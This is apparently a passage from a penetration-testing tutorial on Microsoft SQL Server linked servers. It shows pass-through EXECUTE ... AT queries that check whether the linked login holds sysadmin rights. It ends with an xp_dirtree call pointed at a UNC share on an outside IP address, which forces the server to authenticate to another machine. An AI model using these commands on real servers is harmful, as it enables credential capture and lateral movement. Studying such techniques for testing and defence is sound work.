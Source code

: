 As we can see in the query's output, we have the name of the server and the column `isremote`, where `1` means is a remote server, and `0` is a linked server.

Next, we can attempt to identify the user used for the connection and its privileges. The [EXECUTE](https://docs.microsoft.com/en-us/sql/t-sql/language-elements/execute-transact-sql) statement can be used to send pass-through commands to linked servers. We add our command between parenthesis and specify the linked server between square brackets (`[ ]`).

> [!NOTE] Note
> If we need to use quotes in our query to the linked server, we need to use single double quotes to escape the single quote. To run multiples commands at once we can divide them up with a semi colon (;).
```powershell
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO

------------------------------ ------------------------------ ------------------------------ -----------
DESKTOP-0L9D4KA\SQLEXPRESS     Microsoft SQL Server 2019 (RTM sa_remote                                1

(1 rows affected)
```

```powershell
1> EXECUTE('master..xp_dirtree ''\\10.10.110.17\share\''') AT [10.0.0.12\SQLEXPRESS]
2> GO
```
